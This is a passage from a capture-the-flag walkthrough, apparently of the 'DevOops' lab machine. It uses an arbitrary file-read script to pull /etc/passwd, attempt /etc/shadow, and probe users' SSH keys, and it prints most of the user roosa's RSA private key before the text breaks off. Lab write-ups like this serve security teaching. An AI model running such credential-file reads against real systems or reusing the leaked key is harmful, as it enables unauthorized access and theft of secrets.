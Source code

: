 ```
```

With this script, we can get whatever file we can read:

```

root@kali# ./devoops_get.py /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"

root@kali# ./devoops_get.py /etc/shadow
[-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.

```

## User Shell - SSH as roosa

### Get RSA key for roosa

With the file read capabilities, first, get a list of users from `/etc/passwd`, grepping out users who can’t login. I’ll find 3 users:

```

root@kali# ./devoops_get.py /etc/passwd | grep -v -e false -e nologin -e sync
root:x:0:0:root:/root:/bin/bash
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash

```

As SSH is open, check each user for an RSA key:

```

root@kali# ./devoops_get.py /root/.ssh/id_rsa
[-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.
root@kali# ./devoops_get.py /home/git/.ssh/id_rsa
[-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.
root@kali# ./devoops_get.py /home/roosa/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
```